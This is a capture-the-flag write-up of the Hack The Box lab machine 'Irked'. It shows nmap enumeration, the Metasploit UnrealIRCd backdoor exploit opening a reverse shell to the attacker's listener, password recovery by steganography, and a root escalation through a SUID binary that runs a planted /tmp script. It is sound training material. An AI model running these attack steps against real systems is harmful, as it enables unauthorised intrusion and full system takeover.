

---
search:
  exclude: true
---
# Irked Writeup

## Introduction :

Irked is an easy Linux box that was released back in November 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 85.171.153.138 ] [ ~/_HTB/ ]
      → nmap -F 10.10.10.117 --top-ports 65000 -Pn
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-06 16:11 CET
      Nmap scan report for 10.10.10.117
      Host is up (0.037s latency).
      Not shown: 8315 closed ports
      PORT     STATE SERVICE
      22/tcp   open  ssh
      80/tcp   open  http
      111/tcp  open  rpcbind
      6697/tcp open  ircs-u
      8067/tcp open  infi-async
    
      Nmap done: 1 IP address (1 host up) scanned in 57.80 seconds
    
      λ nihilist [ 85.171.153.138 ] [ ~/_HTB/ ]
      → nmap 10.10.10.117 -sCV -p22,80,111,6697,8097
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-06 16:13 CET
      Nmap scan report for 10.10.10.117
      Host is up (0.034s latency).
    
      PORT     STATE  SERVICE VERSION
      22/tcp   open   ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
      | ssh-hostkey:
      |   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
      |   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
      |   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
      |_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
      80/tcp   open   http    Apache httpd 2.4.10 ((Debian))
      |_http-server-header: Apache/2.4.10 (Debian)
      |_http-title: Site doesn't have a title (text/html).
      111/tcp  open   rpcbind 2-4 (RPC #100000)
      | rpcinfo:
      |   program version    port/proto  service
      |   100000  2,3,4        111/tcp   rpcbind
      |   100000  2,3,4        111/udp   rpcbind
      |   100000  3,4          111/tcp6  rpcbind
      |   100000  3,4          111/udp6  rpcbind
      |   100024  1          42952/tcp   status
      |   100024  1          43551/udp6  status
      |   100024  1          47932/udp   status
      |_  100024  1          56558/tcp6  status
      6697/tcp open   irc     UnrealIRCd
      8097/tcp closed sac
      Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 74.13 seconds
    

## **Part 2 : Getting User Access**

Our nmap scan seems to have picked up UnrealIRCd on port 6697. Browsing to the 80th port which is running apache httpd 2.4.10, we are greeted with a simple image that gives us yet another hint speculating that we should work with the IRC part of this box.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB ]
    → curl -sk http://10.10.10.117/
    <****img src=irked.jpg> <****br> <****b> <****center>IRC is almost working! <****/b> <****/center>
    
    λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB ]
    → searchsploit UnrealIRCd
    ------------------------------------------------------------- -------------------------------
     Exploit Title                                               |  Path
                                                                 | (/usr/share/exploitdb/)
    ------------------------------------------------------------- -------------------------------
    UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit) | exploits/linux/remote/16922.rb
    UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow      | exploits/windows/dos/18011.txt
    UnrealIRCd 3.2.8.1 - Remote Downloader/Execute               | exploits/linux/remote/13853.pl
    UnrealIRCd 3.x - Remote Denial of Service                    | exploits/windows/dos/27407.pl
    ------------------------------------------------------------- -------------------------------
    Shellcodes: No Result

We seeem to have a few exploits to work with. most notably the first one which is available for metasploit, let's fire up msfconsole and see if we can do anything there.
    
    
      msf5 > search UnrealIRCd
    
    Matching Modules
    ================
    
       #  Name                                        Disclosure Date  Rank       Check  Description
       -  ----                                        ---------------  ----       -----  -----------
       0  exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  No     UnrealIRCD 3.2.8.1 Backdoor Command Execution
    
    
    msf5 > use exploit/unix/irc/unreal_ircd_3281_backdoor
    msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > show options
    
    Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):
    
       Name    Current Setting  Required  Description
       ----    ---------------  --------  -----------
       RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
       RPORT   6667             yes       The target port (TCP)
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Automatic Target
    
    
    msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS 10.10.10.117
    RHOSTS => 10.10.10.117
    msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RPORT 6697
    RPORT => 6697
    msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit
    

We hit exploit and see if we get any result. 
    
    
      msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit
    
      [*] Started reverse TCP double handler on 10.10.14.48:4444
      [*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
          :irked.htb NOTICE AUTH :*** Looking up your hostname...
      [*] 10.10.10.117:6697 - Sending backdoor command...
      [*] Accepted the first client connection...
      [*] Accepted the second client connection...
      [*] Command: echo 2AGs6oeXBUrCqprk;
      [*] Writing to socket A
      [*] Writing to socket B
      [*] Reading from sockets...
      [*] Reading from socket A
      [*] A: "2AGs6oeXBUrCqprk\r\n"
      [*] Matching...
      [*] B is input...
      [*] Command shell session 1 opened (10.10.14.48:4444 -> 10.10.10.117:39782) at 2019-12-06 16:22:40 +0100
    
      whoami
      ircd
    
      which python
      /usr/bin/python
    

and we are logged in as ircd ! Now, since python is available for us on the box, we will use a python one-liner using the pty module in order to spawn a nicer prompt. Once that's done we'll try to see if we can find the user flag. 
    
    
      python -c 'import pty; pty.spawn("/bin/bash")'
      ircd@irked:~/Unreal3.2$ uname -a
      uname -a
      Linux irked 3.16.0-6-686-pae #1 SMP Debian 3.16.56-1+deb8u1 (2018-05-08) i686 GNU/Linux
    
      ircd@irked:/home/djmardov/Documents$ cat /home/djmardov/Documents/user.txt
      cat /home/djmardov/Documents/user.txt
      cat: /home/djmardov/Documents/user.txt: Permission denied
    

We are logged in as ircd, however we do not have enough permissions to print out the user flag located in /home/djmardov/Documents/ . Poking around within the same folder, we seem to find a hidden .backup file. 
    
    
    ircd@irked:/home/djmardov/Documents$ ls -la
    ls -la
    total 16
    drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
    drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 ..
    -rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
    -rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
    
    ircd@irked:/home/djmardov/Documents$ cat user.txt
    cat user.txt
    cat: user.txt: Permission denied
    
    ircd@irked:/home/djmardov/Documents$ cat .backup
    cat .backup
    Super elite steg backup pw
    UPupDOWNdownLRlrBAbaSSss
    
    

The .backup file seems to hint us towards steganography, using the "UPupDOWNdownLRlrBAbaSSss" password. Steganography is the art of hiding information within images, we will use the steghide command onto the irked.jpg image we found earlier on the webpage to see if we can extract any data out of it using the password.
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Irked ]
      → wget http://10.10.10.117/irked.jpg
      --2019-12-06 16:34:43--  http://10.10.10.117/irked.jpg
      Connecting to 10.10.10.117:80... connected.
      HTTP request sent, awaiting response... 200 OK
      Length: 34697 (34K) [image/jpeg]
      Saving to: ‘irked.jpg’
    
      irked.jpg                    100%[==============================================>]  33.88K  --.-KB/s    in 0.04s
    
      2019-12-06 16:34:43 (811 KB/s) - ‘irked.jpg’ saved [34697/34697]
    
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Irked ]
      → steghide extract -sf irked.jpg
      Enter passphrase:
      wrote extracted data to "pass.txt".
    
      λ nihilist [ 10.10.14.48/23 ] [ ~/_HTB/Irked ]
      → cat pass.txt
      Kab6h+m+bbp2J:HG
    
    

We seem to have a password to work with ! let's try to escalate privileges to the user djmardov using the su command. 
    
    
      ircd@irked:/home/djmardov/Documents$ su djmardov
    su djmardov
    Password: Kab6h+m+bbp2J:HG
    
    djmardov@irked:~/Documents$ whoami
    whoami
    djmardov
    djmardov@irked:~/Documents$ cat user.txt
    cat user.txt
    4aXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

It worked ! We have been able to print the user flag. 

## **Part 3 : Getting Root Access**

Now in order to elevate our privileges even further we need to poke around the box a little more. Let's list the binaries onto the box to see what we can work with.
    
    
      djmardov@irked:~/Documents$ find / -perm -u=s -type f 2>/dev/null
      find / -perm -u=s -type f 2>/dev/null
      /usr/lib/dbus-1.0/dbus-daemon-launch-helper
      /usr/lib/eject/dmcrypt-get-device
      /usr/lib/policykit-1/polkit-agent-helper-1
      /usr/lib/openssh/ssh-keysign
      /usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
      /usr/sbin/exim4
      /usr/sbin/pppd
      /usr/bin/chsh
      /usr/bin/procmail
      /usr/bin/gpasswd
      /usr/bin/newgrp
      /usr/bin/at
      /usr/bin/pkexec
      /usr/bin/X
      /usr/bin/passwd
      /usr/bin/chfn
      **/usr/bin/viewuser**
      /sbin/mount.nfs
      /bin/su
      /bin/mount
      /bin/fusermount
      /bin/ntfs-3g
      /bin/umount
    
    

the viewuser binary doesn't sound all that common, let's inspect it a little further. 
    
    
      djmardov@irked:/usr/bin$ /usr/bin/viewuser
      /usr/bin/viewuser
      This application is being devleoped to set and test user permissions
      It is still being actively developed
      (unknown) :0           2019-12-06 05:47 (:0)
      sh: 1: /tmp/listusers: not found
    

The viewuser seems to be trying to execute a non-existant file/script within /tmp called listuser. 
    
    
      djmardov@irked:~$ cd /tmp && ls
      cd /tmp && ls
      systemd-private-b7b0ea6c069c44919947973463e3ecd1-colord.service-9t1iyd
      systemd-private-b7b0ea6c069c44919947973463e3ecd1-cups.service-j2QDlp
      systemd-private-b7b0ea6c069c44919947973463e3ecd1-rtkit-daemon.service-ZjjCnq
      vmware-root
    

As we can see, /tmp doesn't contain any file named listuser. Let's try to create a bashscript named "listuser" that could spawn yet another shell, which could have elevated privileges.
    
    
      djmardov@irked:/tmp$ touch listusers
      touch listusers
    
      djmardov@irked:/tmp$ echo '#!/bin/bash' >> listusers
      echo '#!/bin/bash' >> listusers
    
      djmardov@irked:/tmp$ echo '/bin/sh' >> listusers
      echo '/bin/sh' >> listusers
    
      djmardov@irked:/tmp$ /usr/bin/viewuser
      /usr/bin/viewuser
      This application is being devleoped to set and test user permissions
      It is still being actively developed
      (unknown) :0           2019-12-06 05:47 (:0)
      sh: 1: /tmp/listusers: Permission denied
    

Now the binary file finds the listusers script , although we need to make it executable ! we will be using the chmod command along with the +x flag.
    
    
      djmardov@irked:/tmp$ chmod +x listusers
      chmod +x listusers
    
      djmardov@irked:/tmp$ /usr/bin/viewuser
      /usr/bin/viewuser
    
      This application is being devleoped to set and test user permissions
      It is still being actively developed
      (unknown) :0           2019-12-06 05:47 (:0)
    
      # whoami
      whoami
      root
    
      # cat /root/root.txt
      cat /root/root.txt
      8dXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

It worked ! The binary executed our infected listusers script, and it spawned us a root shell, which gave us the root access.

## **Conclusion**

Here we can see the progress graph :

